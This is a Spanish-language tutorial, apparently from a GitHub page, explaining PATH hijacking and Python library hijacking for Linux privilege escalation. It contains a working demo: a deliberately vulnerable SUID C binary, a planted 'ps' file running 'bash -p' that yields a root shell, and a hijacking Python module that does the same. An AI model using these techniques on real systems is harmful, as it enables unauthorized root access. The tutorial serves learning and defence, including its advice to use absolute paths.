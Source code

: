 **¿Qué es el PATH Hijacking?**
Empecemos con el PATH es una variable de entorno el cual tiene rutas del sistema, esto para que es?
Esto nos ayuda a identificar los comando, es decir que si nosotros colocamos `nmap` en un CLI buscara este binario en las rutas que tiene establecidas en el PATH.

``` bash
❯ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/s4tisfacti0n/.fzf/bin
```

Aunque solo se hace uso del PATH cuando se ejecutan rutas relativas.

``` bash
❯ whoami
s4tisfacti0n

❯ /bin/whoami
s4tisfacti0n
```

En el primer comando se utiliza el PATH para buscar el binario, pero en el segundo no hace falta ya que referenciamos la ubicación exacta de donde se encuentra este, *por lo tanto así podemos evitar ataques como path hijacking*.

Ahora este ataque consiste en modificar el PATH para apuntar a otro archivo de formar que no responda el binario legitimo.

En este caso explotaremos de un script con permisos SUID, empezaremos con un pequeño script en C que muestre los procesos que se estén ejecutando, esto lo podemos ver con la utilidad de *ps*.

``` c
#include <stdio.h>

void main(){
	//Para indicar que este script en c es SUID tenemos que indicar setiuid(0) + el chmod +s
	//Es como una doble verificacion
	setuid(0);

	printf("\n\n[*] Listando procesos con (/urs/bin/ps):\n\n");
	system("/usr/bin/ps");

	printf("\n\n[*] Listando procesos con (ps):\n\n");
	system("ps");
}
```

Este script se tiene que exportar en binario para poder ejecutarse

	gcc process.c -o process

Ahora la intención es crear un archivo *ps* en la ruta actual y modificar el PATH para *indicar la ruta de nuestro archivo ps*.
Añadimos la ruta actual al PATH

``` bash
❯ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/s4tisfacti0n/.fzf/bin

❯ export PATH=.:$PATH

❯ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/s4tisfacti0n/.fzf/bin
```

Creamos el archivo *ps*
``` bash
❯ echo 'bash -p' > ps

❯ chmod +x ps
```

y ejecutamos el `process` desde un usuario no privilegiado
``` bash
❯ ./process


[*] Listando procesos con (/urs/bin/ps):

    PID TTY          TIME CMD
  10801 pts/1    00:00:10 zsh
 103431 pts/1    00:00:00 process
 103432 pts/1    00:00:00 sh
 103433 pts/1    00:00:00 ps


[*] Listando procesos con (ps):

bash-5.2# whoami
root
bash-5.2# 
```

*Nota:* Los cambios en PATH son temporales es decir que se eliminan al terminar la sesión.

**¿Que es el Library Hijacking?**
Esto viene siendo la misma dinámica que el PATH Hijacking pero apuntado a las librerías, supongamos que tenemos un script en python que realiza una peticion *GET* a una pagina y nos devuelve un *codigo de respuesta*.

``` python
#!/usr/bin/python3

import requests

response = requests.get('https://github.com')
print(response)

#Output
<Response [200]>
```

Para visualizar el PATH que sigue python lo podemos hacer con *sys*

``` bash
❯ python3 -c "import sys ; print(sys.path)"
['', '/usr/lib/python310.zip', '/usr/lib/python3.10', '/usr/lib/python3.10/lib-dynload', '/home/s4tisfacti0n/.local/lib/python3.10/site-packages', '/usr/local/lib/python3.10/dist-packages', '/usr/lib/python3/dist-packages']
```
Como podemos ver la primera ruta en buscar es ' ', es decir la ruta actual.
Por lo tanto creamos un archivo `request.py` en la ruta actual.

``` python
#!/usr/bin/python3

import os
os.system('bash -p')
```

Ahora si bien no podemos asignarle permisos [SUID a python](https://stackoverflow.com/questions/25001206/suid-doesnt-work-in-bash), pero podemos abusar de un *sudo*.




